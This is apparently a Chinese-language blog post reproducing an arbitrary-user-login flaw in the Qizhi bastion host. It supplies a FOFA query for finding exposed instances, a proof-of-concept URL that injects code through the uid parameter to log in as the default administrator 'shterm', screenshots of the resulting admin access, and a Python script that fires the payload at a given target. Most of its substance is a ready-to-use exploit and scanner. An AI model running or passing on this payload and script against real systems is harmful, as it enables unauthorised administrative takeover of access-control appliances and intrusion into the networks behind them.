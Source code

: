 ```yaml
---
title: 齐治堡垒机任意用户登录
tags:
  - 漏洞复现
categories:
  - 漏洞复现
copyright: true
abbrlink: f8593b1e
date: 2021-07-12 21:33:54
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)

<!--more-->

### 齐治堡垒机存在任意用户登录漏洞

   齐治堡垒机存在任意用户登录漏洞，访问特定的URL即可获得后台权限

### 验证

fofa  `app="齐治科技-堡垒机"`

POC

```sqlite
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

`shterm` 为缺省管理员账户。

审计员：

![img](https://z3.ax1x.com/2021/07/13/WF7zKP.png)



切换超管角色：

![img](https://z3.ax1x.com/2021/07/13/WFHpb8.png)

PY脚本

```python
import requests,sys,re,urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# for url in  open("C:/1.txt","r"):
if len(sys.argv)<2:
        print("[+]Use: pyhton3 齐治科技-堡垒机.py http://ip:port")
        print("[+]Explain: HADESI")
        print("[+]============================")
        sys.exit()

url=sys.argv[1]
url1=url+"/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm"

res = requests.get(url=url1,verify=False)
# print (res.status_code)
if res.status_code == 200 :
    print(url1+">>>>>漏洞存在")
```

**Reference**

https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA/%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.md
